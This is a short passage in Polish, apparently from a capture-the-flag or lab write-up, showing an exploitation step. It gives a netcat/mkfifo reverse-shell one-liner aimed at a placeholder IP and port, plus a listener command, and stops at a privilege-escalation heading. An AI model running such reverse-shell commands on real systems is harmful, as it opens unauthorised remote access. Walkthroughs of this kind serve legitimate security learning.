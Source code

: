 ![Shell](img/Shell.JPG)

## Eksploitacja

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell, używając następującej komendy:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [IP] [Port] >/tmp/f
```
Następnie nasłuchujemy połączeń za pomocą narzędzia netcat:
```
nc -lvnp [Port]
```
![Access](img/Access.JPG)

## Zwiększenie poziomu uprawnień
